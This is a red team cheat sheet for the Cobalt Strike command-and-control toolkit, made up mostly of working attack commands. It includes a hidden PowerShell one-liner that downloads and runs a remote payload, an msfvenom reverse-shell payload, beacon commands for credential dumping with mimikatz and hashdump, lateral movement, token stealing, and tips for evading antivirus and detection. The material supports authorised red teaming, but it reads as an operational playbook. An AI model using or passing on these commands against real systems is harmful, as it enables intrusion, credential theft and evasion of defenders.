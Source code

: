 # Cobalt Strike Cheat Sheet (Red Team Edition)

## ☣️ Overview

Cobalt Strike is a commercial post-exploitation toolkit used in Red Team operations. It features an advanced **Beacon payload**, **team server**, **scripting via Aggressor Script**, and built-in support for **pivoting**, **lateral movement**, and **OPSEC-safe C2**.

---

## ⚙️ Starting the Team Server

```bash
./teamserver <IP> <password>
```

Example:
```bash
./teamserver 192.168.1.100 SecretPass123
```

---

## 💉 Payload Generation

### HTTP/S Beacon

```
Attacks → Packages → Windows Executable (S)
```

### Raw Binary / PowerShell Launcher

```
Attacks → Packages → Windows PowerShell
```

Example:
```
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/a')"
```

---

## 📡 Listener Setup

```
Cobalt Strike → C2 Listener Manager → Add Listener
```

Common types:
- HTTP
- HTTPS
- DNS
- SMB
- External redirectors (Nginx, Apache mod_rewrite)

---

## 🔗 Initial Access & Dropper Examples

### Weaponized LNK or Office Macro

Use:
- `SharpShooter`
- `MacroPack`
- `Donut` for .NET payload generation

### Cobalt Strike + Metasploit

```
msfvenom -p windows/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe
```

Upload and run to stage into Beacon.

---

## 💻 Beacon Commands (Post-Exploitation)

### Session Info

```
beacon> getuid
beacon> ipconfig
beacon> netstat
beacon> shell whoami
```

### Pivoting

```
beacon> jump smb <target> <listener>
beacon> link <beacon_id>
```

### Credential Dumping

```
beacon> mimikatz
beacon> hashdump
beacon> wdigest
```

### Lateral Movement

```
beacon> jump psexec <target>
beacon> jump winrm <target>
```

### File Operations

```
beacon> ls
beacon> cd
beacon> download <file>
beacon> upload <file>
```

### Execute Commands

```
beacon> shell <cmd>
beacon> powershell <cmd>
```

---

## 🎯 Lateral Movement Techniques

- **Psexec**
- **WMI**
- **WinRM**
- **Token stealing**
- **Spawn to (x64/x86)** to match process arch
- **Named pipe pivoting**

---

## 🧬 Aggressor Script Usage

Aggressor Script lets you automate Cobalt Strike tasks.

Example:

```javascript
on beacon_initial {
  println("New beacon: $1");
  beacon_command($1, "getuid");
}
```

Load via:
```
Cobalt Strike → Script Manager
```

---

## 🔐 OPSEC Tips

- Avoid default settings — customize watermark, PE metadata, process injection settings
- Use **sleep/jitter** to avoid noisy callbacks
```
beacon> sleep 60000 20
```
- Avoid `mimikatz` directly; use `sekurlsa::logonpasswords` via shell or run tools from memory
- Prefer **in-memory** execution (`execute-assembly`, `shinject`, `psinject`)
- Use **spawn-to** to avoid AV (run in known-safe processes)
- Use **HTTPS with redirectors**, not direct IPs

---

## 🧰 Useful Commands Summary

```
getuid                         → Show user context  
ps                             → Show processes  
inject <pid> <listener>        → Inject beacon  
shell <command>                → Run command via cmd.exe  
powershell <command>           → Run PowerShell in memory  
mimikatz                       → Credential dumping  
rev2self                       → Drop tokens  
steal_token <pid>              → Use token from process  
jump smb/wmi/psexec/winrm      → Move laterally  
spawnas user pass              → Run as another user  
```

---

## 📌 Integration Notes

- Pair with BloodHound for attack pathing
- Use Covenant or Sliver for diversion or multi-C2
- Cobalt Strike + redirectors = safer infrastructure

---


